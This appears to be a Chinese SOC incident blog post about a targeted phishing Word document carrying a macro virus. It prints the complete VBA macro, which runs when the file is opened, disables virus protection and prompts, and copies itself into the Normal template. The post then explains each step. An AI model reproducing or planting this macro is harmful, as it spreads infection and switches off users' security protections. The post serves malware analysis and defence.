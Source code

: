 ```yaml
---
title: 某区SOC截获宏病毒伪装定向投毒样本
published: 2024-06-29
description: 客户IP因访问业务时多打了几个标点，WAF判定为攻击事件而被ban掉，故前去解封，顺便逛一圈其他设备；发现EDR拦截了一个word文件，故SOC开始对其进行分析。
tags: [应急, 蓝队, 钓鱼, 宏病毒]
category: 日常
draft: false

---
```


## 事件起因

客户IP因访问业务时多打了几个标点，WAF判定为攻击事件而被ban掉，故前去解封，顺便逛一圈其他设备；发现EDR拦截了一个word文件，故SOC开始对其进行分析。（ps:给同事发病毒的时候一定要尽快告知详细新情况....）

## 过程

某区下属SOC平台捕获到针对特定委办局投毒样本，其内容大致为“xx区环xxxx处置情况”，其发件单位为“xx市xx局xx分局”。文件上传后被EDR拦截，SOC对文件分析研判为宏投毒，因其疑似真实文件篡改并针对单独目标投递，故怀疑其为定向投毒。由于该业务环境为Linux，无Microsoft，故判断对业务无影响，暂定无需隔离。

## 样本分析

> 沙箱分析

VT：

![1](./1.png)

微步：

![2](./2.png)

> 初始样本

| 规则                      | 描述                                                     | 源     | 分析环境                     |
| ------------------------- | -------------------------------------------------------- | ------ | ---------------------------- |
| `Contains_VBA_macro_code` | Detect a MS Office document with embedded VBA macro code | Github | Win10(1903 64bit,Office2016) |

> 格式深度分析

嵌入宏

| 行为类型   | 关键字         | 描述                                                         |
| ---------- | -------------- | ------------------------------------------------------------ |
| AutoExec   | Document_Open  | Runs when the Word or Publisher document is opened           |
| Suspicious | KILL           | May delete a file                                            |
| Suspicious | VBProject      | May attempt to modify the VBA code (self-modification)       |
| Suspicious | VBComponents   | May attempt to modify the VBA code (self-modification)       |
| Suspicious | CodeModule     | May attempt to modify the VBA code (self-modification)       |
| Suspicious | Base64 Strings | Base64-encoded strings were detected, may be used to obfuscate strings (option --decode to see all) |

宏代码

`ThisDocument.cls`

```vb
'APMP
'KILL
Private Sub Document_Open()
   On Error Resume Next
   Application.DisplayStatusBar = False
   Options.VirusProtection = False
   Options.SaveNormalPrompt = False
   MyCode = ThisDocument.VBProject.VBComponents(1).CodeModule.Lines(1, 20)
   Set Host = NormalTemplate.VBProject.VBComponents(1).CodeModule
   If ThisDocument = NormalTemplate Then _
      Set Host = ActiveDocument.VBProject.VBComponents(1).CodeModule
   With Host
       If .Lines(1, 1) = "APMP" & .Lines(1, 2) <> "KILL" Then
          .DeleteLines 1, .CountOfLines
          .InsertLines 1, MyCode
          If ThisDocument = NormalTemplate Then _
             ActiveDocument.SaveAs ActiveDocument.FullName
       End If
   End With
End Sub
```

1. 这个宏在文档打开时执行

   ```vb
   Private Sub Document_Open()
   ```

2. 子例程包含试图通过隐藏状态栏、关闭病毒防护和禁用保存提示来禁用安全功能的代码。

   ```vb
   '禁用错误消息:
   On Error Resume Next
   
   '隐藏状态栏和关闭病毒保护:
   Application.DisplayStatusBar = False	'隐藏状态栏。
   Options.VirusProtection = False			'关闭病毒保护选项。
   Options.SaveNormalPrompt = False		'关闭保存 Normal 模板时的提示。
   ```

3. 该宏将其自身代码的前 20 行复制到变量`MyCode`中。然后，它尝试识别`Host`文档，该文档是`Normal.dotm`模板或当前活动文档。

   ```vb
   MyCode = ThisDocument.VBProject.VBProject.VBComponents(1).CodeModule.Lines(1, 20)
      Set Host = NormalTemplate.VBProject.VBComponents(1).CodeModule
      If ThisDocument = NormalTemplate Then _
         Set Host = ActiveDocument.VBProject.VBComponents(1).CodeModule
   ```

4. 代码检查Host文档代码模块前两行中的特定字符串（`APMP`和`KILL`）。如果`APMP`存在而`KILL`不存在，则宏将删除`Host`文档的全部内容，并插入`MyCode`的内容。实际上是用其自身替换主机宏。如果感染目标是 Normal 模板，则它会强制保存活动文档。

   ```vb
      With Host
          If .Lines(1, 1) = "APMP" & .Lines(1, 2) <> "KILL" Then
             .DeleteLines 1, .CountOfLines
             .InsertLines 1, MyCode
             If ThisDocument = NormalTemplate Then _
                ActiveDocument.SaveAs ActiveDocument.FullName
   ```

## 行为分析

借用部门老大的分析结果：

> 由样本代码分析可得知其目的为迭代更新目标主机上已经被污染过的模板，经对比发现类似相同VBA脚本投毒最早出现时间2014-2015年之间，目标皆为境内，因主要为代码迭代行为并没有出现外联，又因其会对公用模板中的APMP以及KILL做监测并做出迭代行为，同时其存在定向钓鱼特征，所以断定其在特定情况下进行快速传播迭代后，配合其他攻击对行业进行打击的可能性较高,故怀疑为某组织下属行业性僵尸网络。

# 
